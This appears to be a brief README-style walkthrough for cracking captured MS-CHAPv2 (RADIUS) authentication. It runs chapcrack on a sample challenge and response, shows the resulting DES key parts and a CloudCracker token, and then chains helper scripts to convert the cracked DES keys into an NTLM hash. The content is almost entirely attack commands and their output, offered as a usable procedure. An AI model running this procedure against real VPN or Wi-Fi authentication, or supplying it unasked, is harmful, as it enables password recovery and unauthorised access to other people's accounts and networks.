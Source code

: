 run chapchrack with the mschap challenge and response https://github.com/moxie0/chapcrack

```python2 chapcrack.py radius -C 44:80:58:11:a0:e2:09:4f -R c4:ef:da:98:b2:c1:4a:c2:f7:10:c9:4d:15:1e:9f:df:b0:31:f4:27:62:ec:31:ad ```


results look like this
``` Cracking K3........
                     C1 = c4efda98b2c14ac2
                     C2 = f710c94d151e9fdf
                     C3 = b031f42762ec31ad
                      P = 44805811a0e2094f
                     K3 = 5f910000000000
CloudCracker Submission = $99$RIBYEaDiCU/E79qYssFKwvcQyU0VHp/fX5E=
``` 

copy the cloudcracker submission without the $99$
https://hashcat.net/forum/thread-5912.html

run chapcrack-des.sh
``` chapcrack-des.sh RIBYEaDiCU/E79qYssFKwvcQyU0VHp/fX5E=```

run
```DES-ntlm.sh```

run
```des-to-ntlm.sh```

Important verify that the order in the DES-ntlm-cracked.txt file is the same as DES-ntlm.hash. If not change the order to match.

